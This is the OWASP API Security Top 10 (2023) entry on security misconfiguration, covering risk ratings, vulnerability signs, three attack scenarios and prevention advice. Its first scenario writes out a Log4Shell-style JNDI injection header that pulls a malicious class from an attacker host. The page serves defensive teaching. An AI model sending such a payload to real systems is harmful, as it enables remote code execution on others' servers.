 API7:2023 Security Misconfiguration
===================================

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **3** | Prevalence **3** : Detectability **3** | Technical **2** : Business Specific |
| Attackers will often attempt to find unpatched flaws, common endpoints, or unprotected files and directories to gain unauthorized access or knowledge of the system. | Security misconfiguration can happen at any level of the API stack, from the network level to the application level. Automated tools are available to detect and exploit misconfigurations such as unnecessary services or legacy options. | Security misconfigurations can not only expose sensitive user data, but also system details that can lead to full server compromise. |

## Is the API Vulnerable?

The API might be vulnerable if:

* Appropriate security hardening is missing across any part of the API stack,
  or if there are improperly configured permissions on cloud services
* The latest security patches are missing, or the systems are out of date
* Unnecessary features are enabled (e.g. HTTP verbs, logging features)
* There are discrepancies in the way incoming requests are processed by servers
  in the HTTP server chain
* Transport Layer Security (TLS) is missing
* Security or cache control directives are not sent to clients
* A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
* Error messages include stack traces, or expose other sensitive information

## Example Attack Scenarios

### Scenario #1

An API back-end server maintains an access log written by a popular third-party
open-source logging utility with support for placeholder expansion and JNDI
(Java Naming and Directory Interface) lookups, both enabled by default. For
each request, a new entry is written to the log file with the following
pattern: `<method> <api_version>/<path> - <status_code>`.

A bad actor issues the following API request, which gets written to the access
log file:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a
permissive network outbound policy, in order to write the corresponding entry
to the access log, while expanding the value in the `X-Api-Version` request
header, the logging utility will pull and execute the `Malicious.class` object
from the attacker's remote controlled server.

### Scenario #2

A social network website offers a "Direct Message" feature that allows users to
keep private conversations. To retrieve new messages for a specific
conversation, the website issues the following API request (user interaction is
not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the Cache-Control HTTP response
header, private conversations end-up cached by the web browser, allowing
malicious actors to retrieve them from the browser cache files in the
filesystem.

### Scenario #3

An e-commerce application does not restrict access to its `dev` node on firewall resulting in verbose response from API. Attacker might be able to get access to sensitive information on the product through the verbose response received from the `dev` node.

```
GET /api/product?id=1234
Host: e-commerce.com

Response:
{
"product_id":1234,
"product_price":"$100",
"product_seller":"ABC"
}
```

```
GET /api/product?id=1234
Host: dev.e-commerce.com

Response:

{
"product_id":1234,
"product_price":"$100",
"product_discount":"$50",
"product_next_discount_date":"01/04/2023",
"product_seller":"ABC"
}
```
## How To Prevent

The API life cycle should include

* A repeatable hardening process leading to fast and easy deployment of a
  properly locked down environment
* A task to review and update configurations across the entire API stack. The
  review should include: orchestration files, API components, and cloud
  services (e.g. S3 bucket permissions)
* An automated process to continuously assess the effectiveness of the
  configuration and settings in all environments

Furthermore:

* Ensure that all API communications from the client to the API server and any
  downstream/upstream components happen over an encrypted communication channel
  (TLS), regardless of whether it is an internal or public-facing API.
* Be specific about which HTTP verbs each API can be accessed by: all other
  HTTP verbs should be disabled (e.g. HEAD).
* APIs expecting to be accessed from browser-based clients (e.g., WebApp
  front-end) should, at least:
  * implement a proper Cross-Origin Resource Sharing (CORS) policy
  * include applicable Security Headers
* Restrict incoming content types/data formats to those that meet the business/
  functional requirements.
* Implement a proper Cross-Origin Resource Sharing (CORS) policy on APIs
  expected to be accessed from browser-based clients (e.g. web app front-ends).
* Ensure all servers in the HTTP server chain (e.g. load balancers, reverse
  and forward proxies, and back-end servers) process incoming requests in a
  uniform manner to avoid desync issues.
* Where applicable, define and enforce all API response payload schemas,
  including error responses, to prevent exception traces and other valuable
  information from being sent back to attackers.

## References

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
